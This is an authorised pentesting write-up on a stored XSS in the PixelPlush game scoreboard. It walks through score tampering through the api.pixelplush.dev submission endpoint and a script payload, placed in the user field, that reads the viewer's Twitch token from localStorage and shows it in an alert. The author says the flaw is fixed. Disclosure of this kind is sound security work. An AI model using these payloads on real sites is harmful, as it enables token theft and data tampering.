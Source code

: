```yaml
---
date: "2021-05-25T00:00:00Z"
redirect_from: /writeups/2021/Pentesting/PixelPlush-Scoreboard-XSS.html
tags: [xss,pixelplush]
title: '[Writeup] Pentesting | XSS in the Pixelplush Scoreboard'
---
```


This writeup is about the **XSS in the [PixelPlush](https://pixelplush.dev) Scoreboard**. 

NOTE: Please always ask for permissions when pentesting a website!



When I decided to pentest [PixelPlush](https://pixelplush.dev) (ofcourse with permission), I was looking for possible vulnerable endpoints that possibly reflect data into a page. I saw that the site has a scoreboard for the Parachute game, and decided this is a nice place to start.



First I took a look at the requests the page made, This one stood out.

![](/assets/CTFs/Pentesting/PixelPlush-Scoreboard-XSS/get-scoreboard-scores.png)



It returns JSON, In this case an array with objects that contain the username, the score and the user-id.

I will provide a example object below.

```json
{
  "userId": "13371337",
  "username": "leethaxor",
  "user": "leethaxor",
  "score": 99.99,
  "created": "2021-05-13T17:16:29.468Z",
  "updated": "2021-05-13T17:16:29.468Z"
}
```



Now we need to know the endpoint that submits the points.

We can simply do this by starting the overlay ourselves and playing it, while having burp open to capture any requests it makes. Finally after a few tries I win some points and a request is made.



![](/assets/CTFs/Pentesting/PixelPlush-Scoreboard-XSS/post-add-score.png)



The data being send is a JSON Object (sample down below)

```json
{
  "token": "REDACTED",
  "channel": "portaalgaming",
  "game": "parachute",
  "theme": "Pixel Parachute (Day)",
  "user": "PortaalGaming",
  "score": "92.98",
  "userId": "244294836",
  "username": "portaalgaming"
}
```

The URL its being send to is https://api.pixelplush.dev/v1/scores/add

Lets send this request to the repeater in Burp Suite. First we can test changing the score count over 100, cause 100 is the limit of the game.



Lets send the following request

```http
POST /v1/scores/add HTTP/1.1
Host: api.pixelplush.dev
Content-Length: 206
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Microsoft Edge";v="90"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://www.pixelplush.dev
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://www.pixelplush.dev/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,nl;q=0.8
Sec-Gpc: 1
Connection: close

{"token":"REDACTED","channel":"portaalgaming","game":"writeup","theme":"Pixel Parachute (Day)","user":"PortaalGaming","score":"999999","userId":"244294836","username":"portaalgaming"}
```



When we now open the page (or send a request to the points endpoint). And yes it set the amount of points, to over 100.

![](/assets/CTFs/Pentesting/PixelPlush-Scoreboard-XSS/get-scoreboard-faked-points.png)

```json
[
  {
    "userId": "244294836",
    "username": "portaalgaming",
    "user": "PortaalGaming",
    "score": 999999,
    "created": "2021-05-25T08:17:56.807Z",
    "updated": "2021-05-25T08:17:56.807Z"
  }
]
```



Now that we know the score isn't safe, lets try to inject html into the user field. Maybe it will work.

```json
{
  "token": "REDACTED",
  "channel": "portaalgaming",
  "game": "writeup",
  "theme": "Pixel Parachute (Day)",
  "user": "<b>PortaalGaming",
  "score": "1337",
  "userId": "244294836",
  "username": "portaalgaming"
}
```

And the server returns with

```json
{ "success": 1 }
```

Nice, it injected the code into the website. (Please note that this now has been fixed and you cant exploit it anymore)


Now lets inject some JavaScript to alert your twitch token. The twitch token is saved inside of the localStorage. 

```json
{
  "token": "REDACTED",
  "channel": "portaalgaming",
  "game": "writeup",
  "theme": "Pixel Parachute (Day)",
  "user": "<script>alert('H4x3d by Daanbreur. Your twitch token is: '+localStorage.getItem('twitchToken'))</script>",
  "score": "1337",
  "userId": "244294836",
  "username": "portaalgaming"
}
```

And if you now open the website, navigate to the scoreboard and open my page, you would have been greeted with an alert that told your twitch token!

![](/assets/CTFs/Pentesting/PixelPlush-Scoreboard-XSS/xss-alert.png)


**Big Thanks to [Instafluff](https://twitch.tv/instafluff) Creator of Pixelplush for letting me pentest the website and write this writeup!**
